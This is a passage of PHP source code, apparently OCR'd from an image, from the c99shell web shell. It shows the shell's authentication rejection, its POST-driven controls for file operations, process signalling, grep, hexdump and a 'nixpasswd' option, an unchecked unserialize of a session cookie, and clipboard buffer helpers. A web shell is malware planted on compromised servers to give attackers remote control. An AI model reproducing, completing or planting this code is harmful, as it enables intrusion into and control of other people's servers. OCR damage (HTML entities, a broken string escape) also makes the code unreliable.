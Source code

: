  header("WWW-Authenticate: Basic realm=\"c99shell ".$shver.": ".$login_txt."\"");
  header("HTTP/1.0 401 Unauthorized");
  exit($accessdeniedmess);
 }
}

if (isset($_POST['act'])) $act  = $_POST['act'];
if (isset($_POST['d'])) $d    = urldecode($_POST['d']);
if (isset($_POST['sort'])) $sort = $_POST['sort'];
if (isset($_POST['f'])) $f    = $_POST['f'];
if (isset($_POST['ft'])) $ft   = $_POST['ft'];
if (isset($_POST['grep'])) $grep = $_POST['grep'];
if (isset($_POST['processes_sort'])) $processes_sort = $_POST['processes_sort'];
if (isset($_POST['pid'])) $pid  = $_POST['pid'];
if (isset($_POST['sig'])) $sig  = $_POST['sig'];
if (isset($_POST['base64'])) $base64  = $_POST['base64'];
if (isset($_POST['fullhexdump'])) $fullhexdump  = $_POST['fullhexdump'];
if (isset($_POST['c'])) $c  = $_POST['c'];
if (isset($_POST['white'])) $white  = $_POST['white'];
if (isset($_POST['nixpasswd'])) $nixpasswd  = $_POST['nixpasswd'];

$lastdir = realpath(".");
chdir($curdir);
$sess_data = unserialize($_COOKIE["$sess_cookie"]);
if (!is_array($sess_data)) {$sess_data = array();}
if (!is_array($sess_data["copy"])) {$sess_data["copy"] = array();}
if (!is_array($sess_data["cut"])) {$sess_data["cut"] = array();}

$disablefunc = @ini_get("disable_functions");
if (!empty($disablefunc))
{
 $disablefunc = str_replace(" ","",$disablefunc);
 $disablefunc = explode(",",$disablefunc);
}

if (!function_exists("c99_buff_prepare"))
{
function c99_buff_prepare()
{
 global $sess_data;
 global $act;
 foreach($sess_data["copy"] as $k=&gt;$v) {$sess_data["copy"][$k] = str_replace("\",DIRECTORY_SEPARATOR,realpath($v));}
 foreach($sess_data["cut"] as $k=&gt;$v) {$sess_data["cut"][$k] = str_replace("\",DIRECTORY_SEPARATOR,realpath($v));}
 $sess_data["copy"] = array_unique($sess_data["copy"]);
 $sess_data["cut"] = array_unique($sess_data["cut"]);
 sort($sess_data["copy"]);
 sort($sess_data["cut"]);
 if ($act != "copy") {foreach($sess_data["cut"] as $k=&gt;$v) {if ($sess_data["copy"][$k] == $v) {unset($sess_data["copy"][$k]); }}}
 else {foreach($sess_data["copy"] as $k=&gt;$v) {if ($sess_data["cut"][$k] == $v) {unset($sess_data["cut"][$k]);}}}
}
}
c99_buff_prepare();
if (!function_exists("c99_sess_put"))
{
function c99_sess_put($data)
{
 global $sess_cookie;
 global $sess_data;
 c99_buff_prepare();
 $sess_data = $data;
 $data = serialize($data);